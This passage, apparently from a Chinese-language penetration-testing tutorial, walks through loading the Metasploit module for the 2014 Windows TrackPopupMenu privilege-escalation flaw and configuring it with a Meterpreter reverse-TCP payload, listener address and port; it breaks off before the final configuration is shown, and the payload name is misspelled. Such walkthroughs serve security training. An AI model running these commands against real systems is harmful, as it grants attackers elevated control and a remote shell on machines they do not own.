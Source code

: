 ![](img/c9de7d18-30de-48b6-bfb6-d93eda5eb378.png)

1.  打开 `msfconsole`，搜索 `TrackPopupMenu`，这是漏洞名称的一部分。我们要找的是 2014 年的那个，`windows/local/ms14_058_track_popup_menu`：

![](img/05e4d1c7-3687-42e1-bb20-febd2dcd41fd.png)

1.  如下所示，加载并配置模块：

```
use windows/local/ms14_058_track_popup_menu
set payload windows/x64/meterpreter/reverese_tcp
set lhost 192.168.56.10
set lport 4444
set session 1
```

最终的漏洞配置应该如下所示：
